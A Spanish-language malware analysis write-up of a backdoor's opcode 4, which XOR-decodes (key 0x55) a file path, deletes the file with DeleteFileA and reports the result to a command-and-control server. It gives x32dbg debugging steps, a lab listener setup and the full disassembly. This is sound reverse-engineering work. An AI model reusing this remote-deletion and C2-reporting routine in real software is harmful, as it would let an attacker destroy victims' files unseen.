 # FUN_004020A0 - Opcode 4

**Propósito principal: Eliminar un archivo remoto y reportar el resultado al C2.**
 
Esta función:
- Recibe un nombre de archivo ofuscado.
- Lo descifra (XOR 0x55).
- Intenta eliminarlo con DeleteFileA.
- Notifica el éxito o el fallo al servidor remoto, probablemente parte del panel de control del atacante.



![opcode4](../analisis-dinamico/capturas/opcode4.png)


________________________________________________________________________

# Análisis dinámico de Opcode 4

## Listener en python para poder probar este opcode
[listener-opcode4](../analisis-dinamico/listener-opcode-4.py)

Creamos un archivo prueba.txt en el escritorio que es el que se va a intentar borrar.  
Activamos en la MV Remnux un listener para probar este opcode en x32dbg y hacemos una captura de los paquetes que circulan por la red:
```
sudo tcpdump -i any host 10.0.0.4
sudo pythom3 listener-opcode-4.py
```


## Inicio de función 0x004020A0 – Entrada
![Inicio](../analisis-dinamico/capturas/004020A0-opcode4.png)
- ECX = param_2 → puntero a la ruta XOReada.
- GUI: clic dcho en ECX → Follow in Dump (verás basura/x55).

- Cuando se detenga, inspecciona el segundo argumento (param_2):
    - Estará en [ESP+8], ya que es cdecl.
    - Mira el contenido del buffer:
    - Usa la vista de memoria: ve a la dirección almacenada en [ESP+8].


## 0x004020B7 – Justo tras el bucle XOR
![Final bucle XOR](../analisis-dinamico/capturas/004020B7-opcode4.png)
- La ruta ya está en claro en ECX.
- GUI: Follow in Dump → ECX para ver la ruta a borrar.

## 0x004020B8 – DeleteFileA
![DeleteFileA](../analisis-dinamico/capturas/opcode4-prueba.txt.png)
- Step over (F8) para ejecutar el borrado.

## 0x004020BE – test eax,eax (resultado)
- EAX != 0 → éxito.  
![Exito borrado fichero](../analisis-dinamico/capturas/004020BE-opcode4.png)

- EAX == 0 → fallo.
![Fallo borrado fichero](../analisis-dinamico/capturas/004020BE-con-fallo-opcode4.png)


## Comunicación en el Host C2
![opcode4-1](../analisis-dinamico/capturas/opcode4-escucha.png)

____________________________________________
# FUN_004020A0 Decompilada

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_004020a0(undefined4 param_1, LPCST
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1
             LPCSTR            Stack[0x8]:4   param_2                                 XREF[1]:     004020a0(R)  
                             FUN_004020a0                                    XREF[1]:     FUN_004012f0:0040175b(c)  
        004020a0 8b 4c 24 08     MOV        ECX,dword ptr [ESP + param_2]
        004020a4 33 c0           XOR        EAX,EAX
                             LAB_004020a6                                    XREF[1]:     004020b5(j)  
        004020a6 8a 14 08        MOV        DL,byte ptr [EAX + ECX*0x1]
        004020a9 80 f2 55        XOR        DL,0x55
        004020ac 88 14 08        MOV        byte ptr [EAX + ECX*0x1],DL
        004020af 40              INC        EAX
        004020b0 3d 00 01        CMP        EAX,0x100
                 00 00
        004020b5 7c ef           JL         LAB_004020a6
        004020b7 51              PUSH       ECX
        004020b8 ff 15 34        CALL       dword ptr [->KERNEL32.DLL::DeleteFileA]          = 00009914
                 90 40 00
        004020be 85 c0           TEST       EAX,EAX
        004020c0 6a 00           PUSH       0x0
        004020c2 6a 02           PUSH       0x2
        004020c4 74 11           JZ         LAB_004020d7
        004020c6 8b 44 24 0c     MOV        EAX,dword ptr [ESP + 0xc]
        004020ca 68 94 a1        PUSH       DAT_0040a194                                     = 30h    0
                 40 00
        004020cf 50              PUSH       EAX
        004020d0 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        004020d6 c3              RET
                             LAB_004020d7                                    XREF[1]:     004020c4(j)  
        004020d7 8b 4c 24 0c     MOV        ECX,dword ptr [ESP + 0xc]
        004020db 68 90 a1        PUSH       DAT_0040a190                                     = 31h    1
                 40 00
        004020e0 51              PUSH       ECX
        004020e1 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        004020e7 c3              RET

```
